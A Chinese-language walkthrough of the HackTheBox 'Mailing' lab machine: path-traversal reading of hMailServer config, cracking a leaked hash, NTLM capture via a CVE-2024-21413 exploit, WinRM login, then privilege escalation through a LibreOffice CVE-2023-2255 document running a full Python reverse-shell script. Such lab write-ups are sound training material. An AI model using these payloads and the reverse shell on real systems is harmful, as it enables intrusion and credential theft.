


# 服务

```
┌──(root㉿kali)-[~]
└─# nmap -Pn -p- 10.10.11.14  
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-02 06:06 EDT
Stats: 0:00:29 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 1.34% done; ETC: 06:42 (0:35:37 remaining)
Stats: 0:03:21 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 21.94% done; ETC: 06:22 (0:11:55 remaining)
Stats: 0:05:20 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 40.99% done; ETC: 06:19 (0:07:41 remaining)
Stats: 0:05:55 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 43.33% done; ETC: 06:20 (0:07:44 remaining)
Nmap scan report for 10.10.11.14
Host is up (0.31s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE
25/tcp    open  smtp                                                                                                
80/tcp    open  http                                                                                                
110/tcp   open  pop3                                                                                                
135/tcp   open  msrpc                                                                                               
139/tcp   open  netbios-ssn                                                                                         
143/tcp   open  imap                                                                                                
445/tcp   open  microsoft-ds                                                                                        
465/tcp   open  smtps                                                                                               
587/tcp   open  submission                                                                                          
993/tcp   open  imaps                                                                                               
5040/tcp  open  unknown                                                                                             
5985/tcp  open  wsman                                                                                               
7680/tcp  open  pando-pub                                                                                           
47001/tcp open  winrm                                                                                               
49664/tcp open  unknown                                                                                             
49665/tcp open  unknown                                                                                             
49666/tcp open  unknown                                                                                             
49667/tcp open  unknown                                                                                             
49668/tcp open  unknown                                                                                             
64869/tcp open  unknown                                                                                             
                                                                                                                    
Nmap done: 1 IP address (1 host up) scanned in 852.80 seconds  
```

详细
```
┌──(root㉿kali)-[~/htb/Mailing]
└─# nmap -sV -Pn -A 10.10.11.14  -p 25,80,110,135,139,143,445,465,587,993,5040,5985,7680,47001
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-02 22:58 EDT
Stats: 0:03:11 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 97.82% done; ETC: 23:01 (0:00:00 remaining)
Nmap scan report for mailing.htb (10.10.11.14)
Host is up (0.52s latency).

PORT      STATE SERVICE       VERSION
25/tcp    open  smtp          hMailServer smtpd
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Mailing
110/tcp   open  pop3          hMailServer pop3d
|_pop3-capabilities: UIDL USER TOP
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp   open  imap          hMailServer imapd
|_imap-capabilities: QUOTA CHILDREN OK SORT CAPABILITY completed ACL IMAP4rev1 NAMESPACE IDLE RIGHTS=texkA0001 IMAP4
445/tcp   open  microsoft-ds?
465/tcp   open  ssl/smtp      hMailServer smtpd
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
|_ssl-date: TLS randomness does not represent time
587/tcp   open  smtp          hMailServer smtpd
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
|_ssl-date: TLS randomness does not represent time
| smtp-commands: mailing.htb, SIZE 20480000, STARTTLS, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
993/tcp   open  ssl/imap      hMailServer imapd
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
|_imap-capabilities: QUOTA CHILDREN OK SORT CAPABILITY completed ACL IMAP4rev1 NAMESPACE IDLE RIGHTS=texkA0001 IMAP4
|_ssl-date: TLS randomness does not represent time
5040/tcp  open  unknown
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp  open  pando-pub?
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows XP|7 (89%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows XP SP3 (89%), Microsoft Windows XP SP2 (86%), Microsoft Windows 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-07-03T03:01:37
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: -8s

TRACEROUTE (using port 25/tcp)
HOP RTT       ADDRESS
1   361.14 ms 10.10.16.1
2   607.40 ms mailing.htb (10.10.11.14)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 243.20 seconds

```


通过搜索发现hmailserver 存在一个最新的漏洞cve-2024-21413，看poc需要账号和密码，先放一放


写域名
```
echo "10.10.11.14 mailing.htb" >> /etc/hosts
```

查看首页源代码，发现一个文件包含


```
<a href="download.php?file=instructions.pdf" class="download-button">Download Instructions</a>
```

## fuzz LFI
```
┌──(root㉿kali)-[~]
└─# wfuzz -c -w /usr/share/wordlists/SecLists-2023.2/Fuzzing/LFI/LFI-LFISuite-pathtotest.txt --hw 0 http://mailing.htb/download.php?file=../../../../../../../FUZZ 
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://mailing.htb/download.php?file=../../../../../../../FUZZ
Total requests: 569

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                        
=====================================================================
...
000000280:   200        1961 L   10642 W    75358 Ch    "/php\php.ini"                                                                                 
000000281:   200        1961 L   10642 W    75358 Ch    "/PHP\php.ini"   

...
```

查看```http://mailing.htb/download.php?file=../../../../../php/php.ini```可以访问到文件内容

因为装的是80端口装的是IIS，合理猜测路径:http://mailing.htb/download.php?file=../../../../../../inetpub/wwwroot/web.config

显示
```
<configuration>
    <system.web>
        <customErrors mode="Off"/>
    </system.web>
</configuration>
```


web上几个人名：
- Ruy Alonso
- Maya Bendito
- Gregory Smith


访问下面路径会报错，其他则不会```http://mailing.htb/download.php?file=../../../../../../users/maya```

可能存在用户名：maya

页面返回```File not found.```可能是文件不存在，也可能是没有权限访问


根据扫描信息知道网站搭了hMailServer，通过[这里](https://www.cnblogs.com/huyueping/p/7603132.html#)知道配置文件地址

访问：
```
view-source:http://mailing.htb/download.php?file=../../../../../../Program%20Files%20(x86)/hMailServer\Bin\hMailServer.INI
```

返回：
```
[Directories]
ProgramFolder=C:\Program Files (x86)\hMailServer
DatabaseFolder=C:\Program Files (x86)\hMailServer\Database
DataFolder=C:\Program Files (x86)\hMailServer\Data
LogFolder=C:\Program Files (x86)\hMailServer\Logs
TempFolder=C:\Program Files (x86)\hMailServer\Temp
EventFolder=C:\Program Files (x86)\hMailServer\Events
[GUILanguages]
ValidLanguages=english,swedish
[Security]
AdministratorPassword=841bb5acfa6779ae432fd7a4e6600ba7
[Database]
Type=MSSQLCE
Username=
Password=0a9f8ad8bf896b501dde74f08efd7e4c
PasswordEncryption=1
Port=0
Server=
Database=hMailServer
Internal=1
```

出来一个AdministratorPassword，可能是md5：841bb5acfa6779ae432fd7a4e6600ba7

来到[这个解密网站](https://crackstation.net/)，解出来密码是：homenetworkingadministrator


使用[这个exp](https://github.com/CMNatic/CVE-2024-21413/blob/main/exploit.py)


修改



执行




接收到
```
┌──(root㉿kali)-[~]
└─# impacket-smbserver -smb2support -ip 0.0.0.0 test /tmp
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.14,54004)
[*] AUTHENTICATE_MESSAGE (MAILING\maya,MAILING)
[*] User MAILING\maya authenticated successfully
[*] maya::MAILING:aaaaaaaaaaaaaaaa:121da680f21baadfb0d4791ac82784a0:0101000000000000002e5564f0cdda013dda050c5c9896da00000000010010004d0067004a0062004c00460042006200030010004d0067004a0062004c00460042006200020010006b007a00540068007900650054004500040010006b007a0054006800790065005400450007000800002e5564f0cdda0106000400020000000800300030000000000000000000000000200000597c78448c1dc55d9b39619495d6e6f93e226810084b2cad916b464304b4d47d0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310036002e00330033000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:test)
[*] NetrGetShareInfo Level: 1
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:test)
[*] Closing down connection (10.10.11.14,54004)
[*] Remaining connections []

```


破解后得到明文密码
```
┌──(root㉿kali)-[~/htb/Mailing]
└─# john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt   
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
m4y4ngs4ri       (maya)     
1g 0:00:00:04 DONE (2024-07-04 05:01) 0.2375g/s 1409Kp/s 1409Kc/s 1409KC/s m61405..m4895621
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 

```

登录
```
┌──(root㉿kali)-[~/htb/Mailing]
└─# evil-winrm -i 10.10.11.14 -u 'maya' -p 'm4y4ngs4ri'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\maya\Documents> whoami
mailing\maya

```


# 提权

在这个路径找到一个软件
```
*Evil-WinRM* PS C:\Program Files\LibreOffice\readmes> type readme_es.txt


======================================================================

Léame de LibreOffice 7.4

======================================================================

```

使用[CVE-2023-2255](https://github.com/elweth-sec/CVE-2023-2255)

生成exploit.odt
```
python3 CVE-2023-2255.py --cmd "python C:\Users\maya\Desktop\shell.py" --output 'exploit.odt'
```


shell.py
```
#shell.py
import os,socket,subprocess,threading;
def s2p(s, p):
    while True:
        data = s.recv(1024)
        if len(data) > 0:
            p.stdin.write(data)
            p.stdin.flush()
 
def p2s(s, p):
    while True:
        s.send(p.stdout.read(1))
 
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.33",443))
 
p=subprocess.Popen(["cmd"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE)
 
s2p_thread = threading.Thread(target=s2p, args=[s, p])
s2p_thread.daemon = True
s2p_thread.start()
 
p2s_thread = threading.Thread(target=p2s, args=[s, p])
p2s_thread.daemon = True
p2s_thread.start()
 
try:
    p.wait()
except KeyboardInterrupt:
    s.close()

```

shell.py上传到C:\Users\maya\Desktop\

exploit.odt上传到C:\Important Documents

等待一段时间
```
┌──(root㉿kali)-[~]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.33] from (UNKNOWN) [10.10.11.14] 64551
Microsoft Windows [Version 10.0.19045.4355]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\LibreOffice\program>whoami
whoami
mailing\localadmin

```

root.txt
```
c:\Users\localadmin\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9502-BA18

 Directory of c:\Users\localadmin\Desktop

2024-04-12  06:10 AM    <DIR>          .
2024-04-12  06:10 AM    <DIR>          ..
2024-02-27  05:30 PM             2,350 Microsoft Edge.lnk
2024-07-05  04:27 AM                34 root.txt
               2 File(s)          2,384 bytes
               2 Dir(s)   4,518,281,216 bytes free

c:\Users\localadmin\Desktop>type root.txt
type root.txt
62837f9b0f544dee9404f1bc196fec7c

```